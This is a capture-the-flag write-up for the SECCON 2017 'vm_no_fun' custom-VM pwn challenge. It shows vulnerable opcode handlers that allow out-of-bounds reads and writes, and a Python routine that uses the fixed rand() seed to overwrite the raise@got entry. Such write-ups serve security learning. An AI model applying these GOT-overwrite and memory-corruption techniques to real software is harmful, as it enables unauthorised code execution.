


# vm_no_fun (custom vm)

In this challenge we are provided with a custom virtual machine which emulates operations on CPU and IO. In fact there are three virtual machines, but they all work in very similar way.
I recommend you watch [How to build a Virtual Machine](https://www.youtube.com/watch?v=OjaAToVkoTw) if you want to get more familiar with vms.

Also please note that even thought I've tried to reverse engineer the whole program I gave up after reverse engineering half of first virtual machine and just used source code which I've found [here](https://github.com/SECCON/SECCON2017_online_CTF/tree/master/pwn/500_vm_no_fun/build). If the link is down you can still find it in `source-code/` folder.

## Internals
As stated above we are given three very simple virtual machines. Each of them consists of 14 registers and buffer of size 0xffff bytes. This buffer represents virtual machine memory space and is divided into segments. Segmentation looks the same for each vm:

```
code_segment:    [0x0   , 0x3fff]
data_segment:    [0x4000, 0x6fff]
extra_segment_r: [0x7000, 0x7fff]
extra_segment_w: [0x8000, 0x8fff]
stack_segment:   [0x9000, 0xffff]
```

This segmentation is achieved with special purpose registers: `cs`, `ds`, `es`, `ss`.



Code segment, data segment and stack all speak for itself. The interesting is extra segment. It is again divided into two parts each 0x1000 bytes and is used for interacting with the other vms or IO in case of VM1.
The point is that we can interact using stdin/stdout only with VM1. When we run vm2 it will load code from vm1 extra_segment_write instead of stdin.




## Vulnerabilities
The most important thing to note is that we can change the value of registers. 

1) Arbitrary read via pop word operation from vm2:

```
case OPCODE_POP_WORD:
    if (ss * 16 + (int64_t)(int)sp > MEM_SIZE)
        raise(SIGSEGV);

    if (dest_word)
        *dest_word = *((uint32_t *) &vm2_mem[ss * 16 + (int64_t)(int)sp]);
    else
        raise(SIGILL);

    sp += 4;
    break;
```

It doesn't check whether `ss * 16 + sp` is less then 0. Meaning if we set `sp` to negative value we can read outside of memory. This way we can leak address from @got entry and determinate libc base address.

2) Arbitrary write via rdrand opeartion from vm3:

```
case OPCODE_RDRAND:
    if (es * 16 + (int16_t)di < 0 || es * 16 + (int16_t)di > MEM_SIZE)
        raise(SIGSEGV);
    vm3_mem[ds * 16 + (int16_t)di] = (uint8_t)(rand() & 0xff);
    break;

default:
    raise(SIGILL);
```

It checks the boundries of extra segment, but then writes memory inside data segment. We can change `di` to negative value and we have arbitrary write. The problem might seem that rand() is non deterministic, but in fact it is as the binary has been seeded with constant number 0x31337. This means that we can simply calculate localy how many times do we need to repeat the number of rand() calls before it will give as desired byte.

My code for this looks like this:
```python3
def generate_vm3_code(cookie):
    '''Generates code which will overwrite raise@got entry with provided cookie.
    This abuses the fact that we know seed for pseudo random number generator and 
    we can use RDRAND instruction to write anywhere we want.'''

    vm3_code = b''

    # First set di register so that VM3_MEM_BASE + ds * 16 + di == raise@got
    new_di = e.got['raise'] - DS_INIT_VAL * 16 - VM3_MEM_BASE
    vm3_code += vm3_set_reg(VM3_REG_DI, new_di)

    clibc = CDLL('/lib/x86_64-linux-gnu/libc-2.27.so')
    clibc.srand(0x31337) # provide same seed
    
    for b in cookie:
        while 1:
            r = clibc.rand() & 0xff
            vm3_code += pack('<h', VM3_OPCODE_RDRAND)
            if r == b:
                # We found correct byte so proceed to next byte
                new_di += 1
                vm3_code += vm3_set_reg(VM3_REG_DI, new_di)
                break
    vm3_code += pack('<h', VM3_INVALID_OPCODE)
    return vm3_code
```
